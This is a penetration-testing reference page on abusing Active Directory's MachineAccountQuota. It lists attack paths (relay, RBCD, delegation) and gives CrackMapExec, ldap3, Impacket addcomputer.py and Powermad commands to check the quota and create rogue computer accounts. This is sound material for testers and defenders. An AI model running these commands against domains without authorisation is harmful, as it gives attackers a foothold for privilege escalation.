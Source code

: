 # MachineAccountQuota

## Theory

> MachineAccountQuota \(MAQ\) is a domain level attribute that by default permits unprivileged users to attach up to 10 computers to an Active Directory \(AD\) domain \([source](https://blog.netspi.com/machineaccountquota-is-useful-sometimes/)\)

## Practice

There are multiple ways attackers can leverage that power.

* [Force client authentications](../mitm-and-coerced-authentications/), [relay those authentications](../abusing-lm-and-ntlm/relay.md) to domain controllers using LDAPS, and take advantage of authenticated sessions to create a domain computer account. This account can then be used as a foothold on the AD domain to operate authenticated recon \(i.e. [with BloodHound](../../recon/bloodhound.md) for example\)
* Create a computer account and use it for [Kerberos RBCD attacks](../abusing-kerberos/delegations.md#resource-based-constrained-delegations-rbcd) when leveraging owned accounts with sufficient permissions \(i.e. ACEs like `GenericAll`, `GenericWrite` or `WriteProperty`\) against a target machine
* Create a computer account and use it for a [Kerberos Unconstrained Delegation](../abusing-kerberos/delegations.md#unconstrained-delegations) attack when leveraging owned accounts with sufficient permissions \(i.e. the `SeEnableDelegationPrivilege` user right\)
* Profit from special rights that members of the Domain Computers group could inherit
* Profit from special rights that could automatically be applied to new domain computers based on their account name

### Check the value

{% tabs %}
{% tab title="UNIX-like" %}
The [MachineAccountQuota](https://github.com/ShutdownRepo/CrackMapExec-MachineAccountQuota) module \(for [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)\) can be used to check the value of the MachineAccountQuota attribute.

```bash
cme ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD -M maq
```

Alternatively, it can be done manually with the following Python code.

```bash
import ldap3

target_dn = "DC=domain,DC=local" # change this
domain = "domain" # change this
username = "username" # change this
password = "password" # change this

user = "{}\\{}".format(domain, username)
server = ldap3.Server(domain)
connection = ldap3.Connection(server = server, user = user, password = password, authentication = ldap3.NTLM)
connection.bind()
connection.search(target_dn,"(objectClass=*)", attributes=['ms-DS-MachineAccountQuota'])
print(connection.entries[0])
```
{% endtab %}

{% tab title="Windows" %}
In order to run the following commands and tools as other users, testers can check the [user impersonation](../credentials/impersonation.md) part.

The following command, using the [PowerShell ActiveDirectory module](https://docs.microsoft.com/en-us/powershell/module/addsadministration/?view=win10-ps)'s cmdlets Get-ADDomain and Get-ADObject, will help testers make sure the controlled domain user can create computer accounts \(the MachineAccountQuota domain-level attribute needs to be set higher than 0. It is set to 10 by default\).

```bash
Get-ADDomain | Select-Object -ExpandProperty DistinguishedName | Get-ADObject -Properties 'ms-DS-MachineAccountQuota'
```
{% endtab %}
{% endtabs %}

### Create a computer account

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [addcomputer](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py) \(Python\) can be used to create a computer account, using the credentials of a domain user the the MachineAccountQuota domain-level attribute is set higher than 0 \(10 by default\).

```bash
addcomputer.py -computer-name 'SHUTDOWN$' -computer-pass 'SomePassword' -dc-host $DomainController -domain-netbios $DOMAIN 'DOMAIN\anonymous:anonymous'
```

Testers can also use [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) instead with the `--add-computer` option, like [this](https://arkanoidctf.medium.com/hackthebox-writeup-forest-4db0de793f96)
{% endtab %}

{% tab title="Windows" %}
The [Powermad](https://github.com/Kevin-Robertson/Powermad) module \(PowerShell\) can be used to create a domain computer account.

```bash
$password = ConvertTo-SecureString 'SomePassword' -AsPlainText -Force
New-MachineAccount -MachineAccount 'PENTEST01' -Password $($password) -Verbose
```

While the machine account can only be deleted by doman administrators, it can be deactivated by the creator account with the following command using the Powermad module.

```bash
Disable-MachineAccount -MachineAccount 'PENTEST01' -Verbose
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
Testers need to be aware that the MAQ attribute set to a non-zero value doesn't necessarily mean the users can create machine accounts. The right to add workstations to a domain can in fact be changed in the Group Policies. `Group Policy Management Console (gpmc.msc) > Domain Controllers OU > Domain Controllers Policy > Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > User Rights Assigments > Add workstations to domain`
{% endhint %}

## References

{% embed url="https://blog.netspi.com/machineaccountquota-is-useful-sometimes/" %}

{% embed url="https://www.harmj0y.net/blog/activedirectory/the-most-dangerous-user-right-you-probably-have-never-heard-of/" %}

{% embed url="https://social.technet.microsoft.com/wiki/contents/articles/5446.active-directory-how-to-prevent-authenticated-users-from-joining-workstations-to-a-domain.aspx" %}

